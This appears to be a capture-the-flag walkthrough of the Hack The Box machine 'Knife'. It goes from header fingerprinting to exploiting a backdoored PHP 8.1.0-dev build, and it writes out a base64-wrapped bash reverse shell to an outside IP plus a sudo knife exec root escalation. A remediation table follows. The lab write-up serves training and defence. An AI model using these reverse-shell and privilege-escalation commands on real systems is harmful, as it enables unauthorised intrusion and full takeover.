










Knife
Knife has almost nothing to click on. The win comes from fingerprinting the server: an
X-Powered-By: PHP/8.1.0-dev header gives away a famously backdoored dev build of PHP, whose
backdoor runs commands sent in a User-Agentt header. That lands a shell as james.
From there, sudo -l shows james can run Chef's knife binary as root with no
password, and since knife runs Ruby, knife exec happily spawns a root shell.
A lot of the time on a box you get handed something you know nothing about. These machines are labelled
"easy", but if you don't recognise the next step they can feel much harder than that. A big point of the
reps is getting used to what is normal and what isn't. Curling the banners of a web server, or
just seeing the word dev, should set off the same alarm as finding login or
admin somewhere it shouldn't be. Treat every box like a job from a client: investigate and
research everything, because any one of those details might be the way in.
01Enumeration
Starting with a full port and service scan:
$ nmap -sCV -p- -T4 --min-rate 5000 10.129.54.74
A small attack surface, so each service gets a close look.
Port 22 (SSH) allows no anonymous login - guest, user, and
anonymous all fail. Nothing to do here without credentials.
Port 80 (HTTP) is a static medical company page. There's nothing to click, no login,
no forms. I checked the usual spots anyway: the page source and DevTools (only external CSS/JS from
Codepen and Google Fonts), robots.txt, and Wappalyzer.

A directory brute-force turns up nothing hidden either, just the index.php we already see:
$ gobuster dir -u http://10.129.54.74 -w <wordlist> -x php,txt,html,js
index.php - no hidden pages.The header that changes everything
When the clicking and crawling comes up empty, go back to basics and read the raw response headers:
$ curl -I http://10.129.54.74
X-Powered-By: PHP/8.1.0-dev.That -dev is the alarm bell. A quick search for "PHP 8.1.0-dev" leads straight to
exploit-db 49933.
User-Agentt header (note the doubled "t"). The exploit script just automates sending that
header and reading the output back.
02Foothold - PHP 8.1.0-dev backdoor
Run the exploit and give it the target URL. It opens a pseudo-shell that runs whatever you type through the backdoor header:
$ python3 phpdev.py

james.This isn't a real shell yet - we're executing commands through the backdoor header, and HTTP headers are limited to Latin-1 characters, which would mangle a reverse-shell one-liner full of symbols. The trick is to base64-encode the payload so it travels as plain text, then decode and run it on the target.
Set up a listener:
$ nc -lvnp 4444Encode a bash reverse shell locally (use your own tun0 IP):
$ echo -n 'bash -i >& /dev/tcp/10.10.15.114/4444 0>&1' | base64Then, inside the backdoor pseudo-shell, decode it back and pipe it to bash:
$ echo <BASE64_STRING> | base64 -d | bash
james, then upgraded to a proper TTY with python3 -c 'import pty; pty.spawn("/bin/bash")'.$ cat ~/user.txt # [redacted]03Privilege escalation - sudo knife
With a foothold as james, enumerate for a way up. LinPEAS flags the usual suspects, but the one that matters is the sudo rule:
$ sudo -lUser james may run the following commands on knife:
(root) NOPASSWD: /usr/bin/knifejames can run /usr/bin/knife as root, with no password. So what is knife?
$ file /usr/bin/knife # symbolic link to /opt/chef-workstation/bin/knife
knife is Chef's command-line tool - and Chef runs on Ruby.knife is built on Ruby and exposes a
knife exec subcommand that runs a Ruby script - so you can simply tell it to exec a shell.
(This is exactly the kind of entry you'd look up on GTFOBins.)
The knife help output is enormous (dozens of subcommands for Chef, AWS, Azure, vSphere, and more), and
it's easy to rabbit-hole. I poked at knife serve (it just starts a local Chef Zero server on
:8889) before landing on the clean answer. Because knife exec runs Ruby as root,
one line is all it takes:
$ sudo knife exec -E 'exec "/bin/sh"'
whoami returns root. The Ruby exec replaced the process with a shell, running as root.# cat /root/root.txt
/root/root.txt [redacted]. Box owned.pkexec at an older version - the box is also
vulnerable to CVE-2021-4034 (PwnKit), which would root it too. The intended and cleaner
route is the sudo knife rule above.
04Root cause & remediation
| Backdoored PHP build in production PHP 8.1.0-dev / exploit-db 49933 |
Never run pre-release/dev builds on an internet-facing server. Pin to patched stable releases, track advisories, and verify package integrity so a tampered build can't ship. |
| Version disclosure in headers | Suppress X-Powered-By and detailed Server banners (expose_php = Off). It won't fix a bug, but it stops handing attackers the exact fingerprint for free. |
| Over-broad passwordless sudo NOPASSWD on an interpreter-backed binary |
Treat any sudo rule on a program that can run code (knife, ruby, python, find, vim...) as equivalent to full root. Scope sudo to specific, non-shelling commands, and keep admin tooling off user accounts. |
05Takeaways
Knife is a lesson in fingerprinting. The whole box hinges on one header you only see if you bother to
curl -I after the web page comes up empty. When the obvious enumeration is dry, the move isn't
to give up, it's to look closer at what the server is quietly telling you about itself.
The privesc is the other half of the lesson, and it's a pattern worth memorising: sudo -l
is always an early check, and a passwordless sudo rule on anything that can execute code is a
straight line to root. When you see an unfamiliar binary there, the two questions are "what is it" (here,
file showed Chef/Ruby) and "can it run a shell" (here, knife exec). GTFOBins
exists to answer the second one fast.